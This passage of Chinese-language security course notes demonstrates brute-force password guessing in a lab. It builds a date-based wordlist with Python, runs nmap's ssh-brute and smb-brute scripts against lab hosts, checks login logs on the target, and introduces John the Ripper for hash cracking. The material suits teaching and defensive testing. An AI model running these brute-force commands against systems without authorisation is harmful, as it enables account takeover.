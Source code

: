 ```bash
                                                        
┌──(kali㉿kali)-[~]
└─$ cat /tmp/users.txt 
root

# 2. 生成1990-01-01到2020-12-31之间的所月日期
┌──(kali㉿kali)-[~]
└─$ vim mydate.py
from datetime import datetime, timedelta

d1 = datetime(1989, 12, 31)
d2 = datetime(2021, 1, 1)
dt = timedelta(days=1)

with open('/tmp/mima.txt', 'w') as f:
    while d1 < d2:
        d1 += dt
        f.write("%s\n" % d1.strftime('%Y%m%d'))

┌──(kali㉿kali)-[~]
└─$ python3 mydate.py

# 3. 修改web1的密码
[root@web1 ~]# echo 19910101 | passwd --stdin root

# 4. 使用自己的密码本破解密码
┌──(kali㉿kali)-[~]
└─$ sudo nmap --script=ssh-brute.nse --script-args userdb=/tmp/users.txt,passdb=/tmp/mima.txt 192.168.88.100 -p 22

# 5. 目标主机将会记录所有的登陆事件
[root@web1 ~]# vim /var/log/secure
# 查看最近的登陆失败事件
[root@web1 ~]# lastb
# 查看最近的登陆成功事件
[root@web1 ~]# last
```

- 扫描windows口令

```bash
[root@myhost ~]# cat /tmp/winuser.txt    # windows用户名
administrator
admin
# 通过samba服务扫描密码
[root@myhost ~]# nmap --script=smb-brute.nse --script-args userdb=/tmp/winuser.txt,passdb=/tmp/mima 172.40.0.151
```

### 使用john破解密码

- 在线破解哈希值的网站：https://cmd5.com/
- 哈希是算法，英文hash的音译，包括md5、sha等
  - 哈希算法是一种单向加密的算法，也就是将原始数据生成一串“乱码”
  - 只能通过原始数据，生成这串“乱码”，但是不能通过“乱码”回推出原始数据
  - 相同的原始数据，生成的乱码是相同的。
- kali系统提供了一个名为john的工具，可用于密码破解
